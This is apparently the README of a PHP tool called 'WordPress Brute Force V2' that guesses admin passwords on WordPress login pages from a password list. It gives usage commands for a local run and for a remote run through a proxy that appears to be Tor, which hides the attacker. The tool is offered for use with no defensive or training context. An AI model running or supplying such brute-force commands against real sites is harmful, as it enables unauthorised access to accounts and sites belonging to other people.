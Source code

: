 # wpbf-n24
WordPress Brute Force V2

Here's a couple of examples

A local session with no proxy

php wp-brute.php http://localhost/blog/wp-login.php admin lib/passlist.txt
A remote session through a proxy.

php wp-brute.php http://site.com/wp-login.php admin lib/passlist.txt /proxy 127.0.0.1:9050

WEB :: https://www.berbagitrik.my.id

TELEGRAM :: https://t.me/nocheatnogamee
